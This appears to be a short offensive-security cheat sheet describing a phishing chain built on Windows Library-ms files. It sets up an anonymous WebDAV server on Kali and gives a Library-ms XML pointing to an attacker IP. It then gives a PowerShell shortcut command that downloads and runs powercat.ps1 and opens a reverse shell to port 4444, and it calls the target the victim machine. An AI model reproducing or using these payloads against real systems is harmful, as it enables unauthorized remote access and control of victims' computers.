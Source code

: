 majority of spam filters and other security controls will directly pass windows library files directly to user

```
pip3 install wsgidav

mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/


```

#### config.Library-ms

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

copy library ms file to victim machine

create shortcut with powershell and place in webdav directory

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.217:9090/powercat.ps1');
powercat -c 192.168.45.217 -p 4444 -e powershell"
```